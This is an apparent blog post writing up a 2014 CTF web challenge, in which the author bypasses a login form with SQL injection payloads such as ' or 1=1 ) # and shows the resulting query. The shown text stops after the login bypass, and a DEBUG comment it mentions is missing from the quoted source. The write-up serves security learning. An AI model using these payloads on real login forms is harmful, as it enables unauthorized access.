 ```yaml
---
layout: post
title: InCTF 2014 - Web 200 Writeup
date: 2014-03-08 17:11:01.000000000 +05:30
excerpt: "A web security writeup for a challenge based on Blind SQL Injection that we solved in InCTF 2014"
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: a650d3fe237471590633515db1337c83
---
```

This is my first CTF writeup.
In this challenge they gave a website like below with a simple yet stylish login form.
As usual first I tried basic sql injection with

{% highlight text %}
' or 1=1 #
{% endhighlight %}

{% include image.html url="/assets/a650d3fe237471590633515db1337c83/ro.png" description="Login page of the given challenge" %}


Then a page with a black background appeared with no text on screen, then I opened the source of that page and found some interesting comments.

{% highlight html %}
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>

{% endhighlight %}

After looking at that DEBUG comment, I tried injecting below code

{% highlight text %}
' or 1=1 ) #
{% endhighlight %}

Resulting query will look like this

{% highlight sql %}
SELECT * FROM login_users where (username='' or 1=1 ) # ' and password='example')
{% endhighlight %}

Yes, It worked well but just a blank page again, so I opened source code and found "Login successfull!" message this time.

{% highlight html %}
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<p>Login successful.</p>
</body>
</html>
{% endhighlight %}
